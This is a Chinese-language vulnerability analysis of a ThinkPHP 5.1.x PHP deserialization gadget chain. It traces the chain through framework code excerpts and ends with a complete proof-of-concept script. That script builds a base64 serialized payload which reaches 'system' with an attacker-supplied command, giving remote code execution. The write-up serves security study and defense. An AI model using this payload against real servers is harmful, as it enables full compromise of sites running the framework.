

# **TP 5.1.x  反序列化链**
## **利用分析**
### **入口点**
thinkphp/library/think/process/pipes/Windows.php的__destruct()调用removeFiles()方法,在removeFiles()中使用了file_exists()触发__tostring()方法
```php

    public function __destruct()
    {
        $this->close();
        $this->removeFiles();//
    }
    //
    private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {//触发__tostring()
                @unlink($filename);
            }
        }
        $this->files = [];
    }
```
全局搜索__toString(),在thinkphp/library/think/model/concern/Conversion.php的__toString()调用了__tojson(),又在toJson()中调用toArray()方法
```php
    public function __toString()
    {
        return $this->toJson();
    }

    public function toJson($options = JSON_UNESCAPED_UNICODE)
    {
        return json_encode($this->toArray(), $options);
    }
```
在toArray()中,\$this->append数组可控,所以\$key和\$name则可控,在`$this->getRelation($key);`中返回为空,接着调用getAttr(),而在getAttr()中返回值为$this->getdata(\$name)
```php
public function toArray()
    {
        $item    = [];
        $visible = [];
        $hidden  = [];
        ...
        ...
        // 追加属性（必须定义获取器）
        if (!empty($this->append)) {
            foreach ($this->append as $key => $name) {
                if (is_array($name)) {
                    // 追加关联对象属性
                    $relation = $this->getRelation($key);//返回空,即$relation为null

                    if (!$relation) {
                        $relation = $this->getAttr($key);//$relation=new request()
                        $relation->visible($name);//触发request的__call()
                    }
        ...

            public function getRelation($name = null)
    {
        if (is_null($name)) {//不满足
            return $this->relation;
        } elseif (array_key_exists($name, $this->relation)) {//不满足
            return $this->relation[$name];
        }
        return;//返回空
    }
```
来到getdata()中,因为\$this->data可控,那么则可以通过设置\$this->append的键名和\$this->data的键名相同即可,即直接返回\$this->data中键对应的值,我们将其对应的值设置为request对象的话,那么在接下来的 `$relation->visible($name);`中就会触发request类的__call方法
```php
    public function getData($name = null)
    {
        if (is_null($name)) {
            return $this->data;
        } elseif (array_key_exists($name, $this->data)) {//
            return $this->data[$name];//返回request对象
        } elseif (array_key_exists($name, $this->relation)) {
            return $this->relation[$name];
        }
        throw new InvalidArgumentException('property not exists:' . static::class . '->' . $name);
    }
```
在Request的_call方法中,使用了`call_user_func_array($this->hook[$method], $args);`,而$this->hook是可控的,那么就会执行可控数组中的visible对应的值方法,那么可以通过设置\$this->hook为`        $this->hook = ["visible"=>[$this,"isAjax"]];`那么变成了`call_user_func_array([$this->isAjax], $args);`从而执行isAjax()
```php
    public function __call($method, $args)
    {
        if (array_key_exists($method, $this->hook)) {
            array_unshift($args, $this);
            return call_user_func_array($this->hook[$method], $args);
        }

        throw new Exception('method not exists:' . static::class . '->' . $method);
    }
```
而在isAjax()中则调用了param()方法,其中`$this->config['var_ajax']`可控,及传入的$name
```php
    public function isAjax($ajax = false)
    {
        ...
        $result           = $this->param($this->config['var_ajax']) ? true : $result;
        $this->mergeParam = false;
        return $result;
    }
```
在param()中,将$this->param和get参数合并为\$this->param,后调用input方法,并将合并后的参数传入
```php
    public function param($name = '', $default = null, $filter = '')
    {
        ...
                    // 当前请求参数和URL地址中的参数合并
            $this->param = array_merge($this->param, $this->get(false), $vars, $this->route(false));//$this->param和$GET参数都可控

        ...
                return $this->input($this->param, $name, $default, $filter);
    }
```
在input()方法中,首先\$data的值从getData()中获取,其取出在\$this->param(上一步合并后的值)中的\$name元素(即\$this->config[var_ajax)的值,然后\$filter则是\$this->filter的值,可控,然后便调用filterValue()方法
```php
 public function input($data = [], $name = '', $default = null, $filter = '')
 {
             ...
            $data = $this->getData($data, $name);
             ...
            $filter = $this->getFilter($filter, $default);
            if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            if (version_compare(PHP_VERSION, '7.1.0', '<')) {
                // 恢复PHP版本低于 7.1 时 array_walk_recursive 中消耗的内部指针
                $this->arrayReset($data);
            }
        } else {
            $this->filterValue($data, $name, $filter);
}
```
在filterValue()中则调用call_user_func()其中\$filter和\$value都可控,造成RCE
```php
    private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);

        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
```
### **POC**
因为\$data(也就是要执行的命令)是通过合并\$this->param和\$GET数组后取得,所以既可以把命令写死在$this->param中,或者写在\$GET数组中,只要参数名与\$this->config[var_ajax)的值相同即可
```php
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["poc"=>['1']];
        $this->data = ["poc"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        'var_ajax'         => '_ajax',
    ];
    protected $param = [];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>'poc'];
        $this->hook = ["visible"=>[$this,"isAjax"]];
        //$this->param=['poc'=>'whoami'];//命令写死在poc里,或者通过$GET方式传入与\$this->config[var_ajax)对应的值也可以
    }
}
namespace think\process\pipes;
use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```
